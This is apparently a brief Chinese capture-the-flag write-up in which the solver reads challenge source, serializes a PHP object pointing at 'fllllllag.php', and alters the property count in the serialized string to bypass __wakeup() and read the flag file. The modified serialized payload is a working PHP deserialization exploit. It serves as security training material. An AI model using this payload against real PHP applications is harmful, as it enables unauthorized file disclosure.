

分析源码

提示flag在

fllllllag.php 

*序列化对象*

 

<?php

class X

{

  public $x ='fllllllag.php';

} 

$a = new X;

echo serialize($a);

?>

 

 

O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";} 

 

 

修改数量绕过_wakeup()

O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";} 

 

 

 